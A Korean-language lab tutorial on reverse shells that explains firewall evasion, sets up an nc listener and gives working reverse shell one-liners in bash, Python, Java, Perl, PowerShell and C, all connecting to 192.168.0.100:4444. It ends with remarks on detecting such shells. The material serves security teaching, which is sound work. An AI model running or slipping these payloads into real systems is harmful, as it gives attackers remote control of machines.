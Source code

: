 # Reverse Shell 실습  
### 리버스 쉘(Reverse Shell)

- 대상 서버가 공격자에게 접속하여, 대상 서버의 쉘을 공격자에게 전달하는 연결 방식이다.
- 쉽게 말해, 공격 대상 서버가 공격자 서버에 접속하도록 해서 얻는 쉘이다.  
<br>

방화벽 우회, 탐지 우회가 비교적 쉽고, 리스닝 중인 포트가 없어도 된다는 점 등 여러 이점이 있어  
리버스 쉘은 공격자에게 매력적으로 다가갈 수 밖에 없다.  

보통 아웃바운드 규칙은 인바운드 규칙보다 느슨한 경우가 대부분이기에  
대상 서버에 명령만 내릴 수 있다면, 공격자는 대상 서버가 외부 공격자 시스템에 연결하게 만들어,   
방화벽을 우회하고 안정적인 원격 제어 채널을 확보할 수 있다.    
<br>

본격적인 리버스 쉘 실습 전에 Local Host 의 주소를 알아야한다.  
우선 `sudo apt install net-tools`을 설치해준 후 `ifconfig` 명령어로 내 IP를 확인해주자.  
<br>

### **Bash Reverse Shell**

- `dev` 파일 시스템을 통해 TCP/UDP 연결을 파일처럼 다룰 수 있는 특수 기능을 이용하여 쉘에 연결한다.  

/dev 디렉토리는 리눅스에서  장치 파일이 위치하는 가상 파일 시스템이다.  

이 디렉토리에 있는 파일들은 커널이 제공하는 인터페이스로 볼 수 있는데,  
(하드웨어 장치나 가상 장치를 파일처럼 다루게 해주는 입출력 통로라고 보면 됨)  

이걸 이용하여 쉘에 연결할 수 있다.  
<br>

**동작 방법 (공격자 PC | VM 외부 Local Host 에서 실행)**  
```bash
nc -lvnp 4444
```

→ Local IP 주소에서 4444 포트를 Listen 상태로 만든다.  
<br>

**동작 방법 (VM Server 에서 실행)**  
```bash
/dev/tcp/[IP]/[PORT]
```

→ 위 명령어로 `/dev/tcp/host/port`를 입력하면 bash가 `host:port`로 TCP 연결을 시도한다.  
<br>

**VM Server 에서 실행 명령어**  
```bash
bash -c 'bash -i >& /dev/tcp/[VM 외부 Local Host IP 주소]/[Listen 중인 포트] 0>&1'
```

→ 위 명령어는 `>&`로 표준 출력과 에러를 TCP로 보내고 `0>&1`로 표준 입력을 표준 출력과 동일 스트림에 연결한 것이다.  

쉽게 말해서 쉘의 입출력을 TCP 연결에 붙여서 원격에서 터미널에 직접 앉은 것처럼 작동하게 만든다는 것이다.  

이제 내 IP 주소에 해당 명령어를 쳐보면  
<br>

<img src="https://github.com/user-attachments/assets/de78db35-fbba-446c-8401-6903b4de34cb" width=500>
<img src="https://github.com/user-attachments/assets/9ea066be-f89d-49c3-a805-ae0fd69930a7" width=500>

이렇게 로컬 환경에서 VM server의 리버스 쉘을 획득한 것을 확인할 수 있다.   

<br>

### **여러 환경에서의 취약점**  
- 리버스 쉘은 여러 코드 환경에서 다양한 방식으로 실행될 수 있다.
- 취약점이 발견된 곳이라면 언제든 작동할 수 있다는 것을 알아두자
<br>
 
**예시 (잘 알려진 Reverse Shell 코드)**  
**Python**  
→ 취약한 eval 혹은 RCE 상황

```python
import socket,subprocess,os
s=socket.socket(); s.connect(("192.168.0.100",4444))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash"])
```

**Java**

→ EL(Expression Language) injection, Deserialization 취약점 등

```java
Runtime.getRuntime().exec("bash -c 'bash -i >& /dev/tcp/192.168.0.100/4444 0>&1'");
```

**Perl**

→ 시스템 명령 실행 함수가 오염된 경우

```perl
perl -e 'use Socket;$i="192.168.0.100";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**PowerShell**

→ Macro, Invoke-Expression, WMI 등

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.0.100",4444);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()}
```

**C**

→system 명령

```c
#include <stdlib.h>
int main() {
    system("bash -i >& /dev/tcp/192.168.0.100/4444 0>&1");
    return 0;
}
```

### 마무리

이번에 다룬 예시들은 전부 유저 공간에서 동작한다. 

추후에 다룰 내용이지만 이러한 프로세스들은 ps, top, lsof 등으로 탐지가 가능하다.
OS 커널 자체를 수정하거나 우회하진 않기 때문에 비교적 쉽게 탐지가 가능하지만,

커널 공간에서 동작하는 리버스 쉘은 탐지하기가 어다. 
마지막 챕터에서 이러한 문제점을 다뤄보며 실습을 해볼 예정이다.

